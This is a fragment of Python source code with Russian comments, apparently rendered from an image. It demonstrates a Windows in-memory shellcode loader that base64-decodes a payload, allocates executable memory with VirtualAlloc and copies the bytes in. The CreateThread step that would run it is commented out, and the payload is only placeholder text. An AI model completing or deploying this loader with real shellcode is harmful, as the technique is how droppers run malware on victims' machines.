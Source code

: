             # Декодируем наш "шеллкод"
            code_bytes = base64.b64decode(shellcode_b64)
            code_len = len(code_bytes)

            # 1. Выделяем память с правами на выполнение (PAGE_EXECUTE_READWRITE = 0x40)
            # VirtualAlloc(lpAddress, dwSize, flAllocationType, flProtect)
            # MEM_COMMIT | MEM_RESERVE = 0x3000
            ptr = kernel32.VirtualAlloc(None, code_len, 0x3000, 0x40)
            if not ptr:
                print(f"Ошибка VirtualAlloc: {ctypes.get_last_error()}")
                # exit(1)

            # 2. Копируем наш код в выделенную память
            # RtlMoveMemory(Destination, Source, Length)
            # Буфер из Python должен быть ctypes.c_char_p или приведен к нему
            buffer_from_bytes = ctypes.create_string_buffer(code_bytes)
            kernel32.RtlMoveMemory(ctypes.c_void_p(ptr), buffer_from_bytes, code_len)
            
            print(f"Код скопирован в память по адресу: {hex(ptr)}")

            # 3. Создаем поток для выполнения кода в памяти
            # CreateThread(lpThreadAttributes, dwStackSize, lpStartAddress, lpParameter, dwCreationFlags, lpThreadId)
            # Закомментировано, так как реальное выполнение этого "текста" как кода приведет к ошибке.
            # В реальном сценарии здесь был бы указатель на начало валидного машинного кода.
            # thread_handle = kernel32.CreateThread(None, 0, ctypes.c_void_p(ptr), None, 0, None)
            # if not thread_handle:
            #     print(f"Ошибка CreateThread: {ctypes.get_last_error()}")
            # else:
            #     print(f"Поток создан с хэндлом: {thread_handle}. Ожидание завершения...")